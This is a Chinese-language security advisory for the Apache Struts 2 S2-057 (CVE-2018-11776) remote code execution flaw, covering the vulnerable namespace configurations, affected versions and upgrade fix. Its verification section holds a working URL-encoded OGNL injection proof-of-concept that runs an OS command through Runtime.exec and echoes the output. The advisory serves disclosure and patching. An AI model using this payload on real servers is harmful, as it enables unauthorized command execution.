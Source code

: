 # 事件来源

Struts 2 是一个基于 MVC 设计模式的Web应用框架。其官方在 8 月 22 号发出安全通告及补丁，对其存在的一个远程代码执行漏洞进行修复：

[https://cwiki.apache.org/confluence/display/WW/S2-057](https://cwiki.apache.org/confluence/display/WW/S2-057)

该漏洞编号为 S2-057，CVE 编号为 CVE-2018-11776，当在struts2开发框架中启用泛namespace功能，并且使用特定的result时，会触发远程代码执行漏洞。

由来自 Semmle 安全研究团队的成员 Man Yue Mo 发现并报告。

# 漏洞描述

当没有为基础 XML 配置中定义的 result 设置 namespace ，且其上层的 action 配置没有 namespace 或使用通配符 namespace时，即可能造成远程代码执行漏洞。

同样地，当使用没有设置 value 和 action 的 url 标签，且其上层的 action 配置没有 namespace 或使用通配符 namespace时，也可能会造成远程代码执行漏洞。

漏洞的发现者 Man Yue Mo 写了一篇博客，较详细地分享了他发现这个漏洞的过程和方法：

[https://lgtm.com/blog/apache\_struts\_CVE-2018-11776](https://lgtm.com/blog/apache_struts_CVE-2018-11776)

漏洞作者是在调试分析 Struts 2 历史漏洞 S2-032 , S2-033 和 S2-037 时发现的此漏洞，并且此漏洞也与 OGNL 表达式构造相关。

下图为漏洞作者利用此漏洞成功执行任意代码的截图：

![](/assets/s2-057-1.png)

# 影响范围

Struts 2.3 - Struts 2.3.34

Struts 2.5 - Struts 2.5.16

实际场景中存在一定局限性，需要满足一定条件。

# 解决方案

对 Structs 2 版本进行升级以更新安全补丁：

Struts 2.3.x 版本升级到 2.3.35

Struts 2.5.x 版本升级到 2.5.17

漏洞验证![](/assets/s2057-2.png)传入OGNL表达式${2333+2333}![](/assets/s2057-3.png)  
成功带入执行函数，并执行![](/assets/s2057-4.png)返回结果至URL

POC:

[http://www.canyouseeme.cc:8080/struts2-showcase/%24%7b\(%23\_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime\(\).exec\(%27calc%27\).getInputStream\(\)%2c%23b%3dnew+java.io.InputStreamReader\(%23a\)%2c%23c%3dnew++java.io.BufferedReader\(%23b\)%2c%23d%3dnew+char%5b51020%5d%2c%23c.read\(%23d\)%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse\(\).getWriter\(\)%2c%23jas502n.println\(%23d+\)%2c%23jas502n.close\(\)\)%7d/actionChain1.action](http://www.canyouseeme.cc:8080/struts2-showcase/%24{%28%23_memberAccess["allowStaticMethodAccess"]%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime%28%29.exec%28'calc'%29.getInputStream%28%29%2c%23b%3dnew+java.io.InputStreamReader%28%23a%29%2c%23c%3dnew++java.io.BufferedReader%28%23b%29%2c%23d%3dnew+char[51020]%2c%23c.read%28%23d%29%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2c%23jas502n.println%28%23d+%29%2c%23jas502n.close%28%29%29}/actionChain1.action)

靶机测试

[https://github.com/jas502n/St2-057/blob/master/README.md](https://github.com/jas502n/St2-057/blob/master/README.md)

# 分析文章

S2-057 技术分析[ https://paper.seebug.org/682/](https://paper.seebug.org/682/)



